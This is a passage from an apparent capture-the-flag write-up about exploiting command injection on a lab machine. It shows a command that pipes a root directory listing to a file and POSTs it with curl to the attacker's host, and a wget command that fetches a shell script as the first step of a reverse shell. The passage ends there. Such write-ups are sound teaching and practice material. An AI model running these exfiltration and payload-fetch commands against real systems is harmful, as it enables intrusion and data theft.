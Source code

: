 Now I just needed something to get the output from commands that printed data in multiple lines, like ``ls -al``.

### {Command} + Piped output + Curl POST

I though I could pipe the command's output to a file and then send the file to my machine with the previous method. The code was:

```py
cmd = "ls -al / > /tmp/tmp1; curl --form 'filename=@/tmp/tmp1' 10.10.14.143:8001"
```

*List of the root directory*

![Img](images/root_dir.png "Img")

### Getting a reverse shell

I grew tired of these methods and decided to get a shell (simple reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)):

1. Get the code using wget and store the file in ``/tmp`` (where we have write permissions). I needed to do ``which curl`` to get the path of the executable, otherwise it wouldn't work.

```py
cmd = "cd /tmp; /usr/bin/wget 10.10.14.143:8002/shell.py;"
```
